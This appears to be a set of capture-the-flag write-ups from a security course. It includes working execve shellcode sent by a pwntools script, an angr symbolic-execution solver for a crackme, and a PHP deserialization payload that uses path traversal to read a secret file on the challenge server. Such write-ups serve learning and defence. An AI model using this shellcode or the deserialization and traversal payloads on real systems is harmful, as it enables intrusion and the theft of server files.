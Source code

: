 ## backtoshell ![c](https://img.shields.io/badge/solved-success)
Really easy shellcode challenge, where we have a read of 0x200 bytes and after that every register is set to 0, then the code jumps to the buffer in which our input has been stored and executes it.

The main issue (easily bypassable) is the zeroing of the registers, also rsp, so we can't use the stack in our shellcode.

After trying some fancy reads, I realized that one of the simplest execve shellcode would be enough, the only problem was where to store the /bin/sh string. Without making it complex, if we put this string after the system call, we dont' care about possible errors, because we will already have our shell.

So let's write some assembly, knowing that in rax we will initially have the starting address of the buffer:

```assembly
mov rdi, rax    ; save the starting address for later
mov rax, 0x3b   ; id of the execve syscall
add rdi, 22     ; offset where /bin/sh will be (count shellcode bytes)
xor rsi, rsi    ; put rsi to 0
xor rdx, rdx    ; put rdx to 0
syscall         ; actual call
```
This is the script:

```python
from pwn import *

context.terminal = ['terminator', '-e']

r = remote("training.jinblack.it", 3001)

#input("wait")

execve = b"\x48\x89\xC7\x48\xC7\xC0\x3B\x00\x00\x00\x48\x83\xC7\x16\x48\x31\xF6\x48\x31\xD2\x0F\x05/bin/sh\x00"
#we can count 22 bytes before /bin/sh

r.send(execve)
r.interactive()
```

And this is the flag: **flag{Congratulation_you_got_aa_working_shellcode_!}**

## keycheck_baby ![c](https://img.shields.io/badge/solved-success)
After a rapid analysis we can see that it's a classic input guessing challenge. We can open it with Ghidra, and with a simple Python script we easily get the first part of the flag: flag{y0u_d4_qu33n_

Here it comes the first problem: even with Ghidra, the second input check seems unsolvable. 

For this reason I dropped the idea of understanding the code, and moved on angr to solve the challenge with symbolic execution.

With a basic script we can retrieve the flag, that is: **flag{y0u_d4_qu33n_0f_cr4ck1ngz}**

First script (classic angr):
```python
import angr
import claripy

FLAG_LEN = 31
STDIN_FD = 0

base_addr = 0x100000 # To match addresses to Ghidra , main_opts={'base_addr': base_addr}

proj = angr.Project("./keycheck_baby", main_opts={'base_addr': base_addr}) 

flag_chars = [claripy.BVS('flag_%d' % i, 8) for i in range(FLAG_LEN)]
flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')]) # Add \n for scanf() to accept the input

state = proj.factory.full_init_state(
        args=['./keycheck_baby'],
        add_options=angr.options.unicorn,
        stdin=flag,
)

# Add constraints that all characters are printable

for k in flag_chars:
    state.solver.add(k >= ord('!'))
    state.solver.add(k <= ord('~'))


simgr = proj.factory.simulation_manager(state)
find_addr  = 0x1013f8 # SUCCESS 101471 10136a 1013f8
avoid_addr = 0x101487 # FAILURE 102058 101487 
simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(simgr.found) > 0):
    for found in simgr.found:
        print(found.posix.dumps(STDIN_FD))
```

Second script (super cool):
```python
import claripy
import angr

p=angr.Project('./keycheck_baby')

simfile = angr.SimPackets('input')

st = p.factory.entry_state(stdin=simfile);
sm = p.factory.simulation_manager(st)
sm.explore(find=lambda s: b"Your input looks" in s.posix.dumps(1))
for s in sm.found:
    print(s.posix.dumps(0))
```
## lolshop ![c](https://img.shields.io/badge/solved-success)
This is a serialization challenge, and we are given the link of the website and also the source, and the hint that the flag is in /secret/flag.txt file path. 

First of all, let's explore the code and make a plan: we can see that there is only one method that unserializes an object, located in State.php called restore($token).

```php
    static function restore($token) {
        return unserialize(gzuncompress(base64_decode($token)));
    }
```

After that, we can notice that the only path we can see in all these files is the one representing the products' image: if we are able to modify this, we may obtain the flag as the image of one of the products. This is located in Products.php.

```php
    function getPicture() {
        $path = '/var/www/assets/' . $this->picture;
        $data = base64_encode(file_get_contents($path));
        return $data;
    }

    function getPrice() {
        return $this->price;
    }

    function toDict() {
        return array(
            "id" => $this->id,
            "name" => $this->name,
            "description" => $this->description,
            "picture" => $this->getPicture(),
            "price" => $this->price
        );
    }
```

The idea is:
1. we want to trigger the toDict() function of a product
2. we search for every call the restore() method in the source code
3. after finding the right restore() call, we try to craft a malicius payload

We can notice that in the cart.php page we have:
```php
...
} else if(isset($_REQUEST['state'])) {

    $state = State::restore($_REQUEST['state']);

    $enc = json_encode($state->toDict(), JSON_PRETTY_PRINT | JSON_NUMERIC_CHECK);

    if(isset($_REQUEST['save'])) {
        $tok = $db->saveState($enc);
        if(!$tok) {
            http_response_code(400);
        } else {
            echo json_encode(array("token" => $tok));
        }
    } else {
        echo $enc;
    }

} else {
    http_response_code(400);
}
```
so we can see that we call the restore(), then we call the toDict() on the unserialized state: COOL

What if we try to unserialize a Product object, instead of a State object?

We will have this situation: our object will be unserialized without errors, because it's a valid one; then the $state->toDict() instruction will be executed, but now the method refers to Product.toDict(), so the getPicture() will be executed with a payload that WE control.

The final script is:
```python
import requests
import json

url = 'http://jinblack.it:3006/api/cart.php'

#myobj = {'state': 'eJxNkE1rxCAQhvNTxNMu5JDRfOqphz0slA00217LRA0I+xHUPYQl/72atrAHX/SZd16c6UUl6BAwGCqYeHoBpaDZBjJvvLf3G5W9aKLp7yX4ZoNk+0WZ1VR6UcdObeoCedexqhwB2gJh7BreFTCBwrZRNWOT4qCha0dWaSzNWJsGYZqAa5wg5QB/ib7h1SQY2bIs6cbYS9lc0V6+UWsXQap28RPH03D4OJPj6dyT2d31QwVPdlbnJKXlRBuvnJ1DDMjJbFV4uEhnZ5XZk6+398/DQHZQ5IQi0qjjmFSpqMVeUrn+j79tSaELVKIA8bQCZDrr+gPGZmUA'}
myobj = {'state': 'eJxNjl0KwjAQhHuWPUCa1KqwOYS9QthEXdCkJFsQxLub/jwE5mH4dmbYG14Rppz8QgJ4xm9BYxC6A3XswTIabSs/NTy6d4AKK/OcVjfo5uxDocyzcIpHKrrn6sylSc1MsuRtZxgRlOp3lUA5SH9/uYeSj2y9se1lprD/pbX9/QGaazsG'}
'''
$xxx = new Product(10,'dio','nah', '../../../secret/flag.txt', 1000);
echo base64_encode(gzcompress(serialize($xxx)));
'''
x = requests.post(url, data = myobj)

print(x.text)
```

After sending the request we get this output:

![response](./lolshop.png)

We know that the flag is encoded in base64, so with a simple conversion we obtain: **actf{welcome_to_the_new_web_0836eef79166b5dc8b}**

## positiveleak
